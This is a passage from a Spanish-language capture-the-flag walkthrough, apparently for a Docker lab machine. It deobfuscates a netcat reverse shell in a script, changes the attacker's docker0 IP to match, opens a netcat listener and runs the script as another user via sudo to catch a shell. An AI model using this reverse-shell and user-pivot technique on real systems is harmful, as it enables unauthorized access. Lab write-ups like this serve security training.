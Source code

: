 Se trata de una reverse shell con netcat cuya ip y puerto están ofuscados. Si los desofuscamos tenemos la ip **172.17.0.186** y el puerto **6068**.

Por lo que vamos a cambiar nuestra ip a esa nueva.

Primero usando `ip a` en nuestra máquina para ver el nombre de la interface de red y nuestra ip. Obtenemos **docker0** y **172.17.0.1/16**.

Ahora vamos a borrarla.
```bash
ip address del 172.17.0.1/16 dev docker0
```

Y agregamos la ip **172.17.0.186**

```bash
ip address add 172.17.0.186/16 dev docker0
```

Ahora si usamos `hostname -I` veremos que tenemos la nueva ip.

Nos ponemos en escucha con **netcat** en el puerto **6068**

```bash
nc -nlvp 6068
```

Y nos volvemos a conectarnos por ssh como el usuario dimer, ya que al hacer el cambio de la ip hemos pérdido esa consola. Una vez conectados, ejecutamos como el usuario bilter el script life.sh

```bash
sudo -u bilter /opt/life.sh
```

Y recibimos la conexión.

![reverse-shell](screenshots/reverse-shell.png)

Realizamos el tratamiento de la **TTY**

![tty1](screenshots/tty1.png)
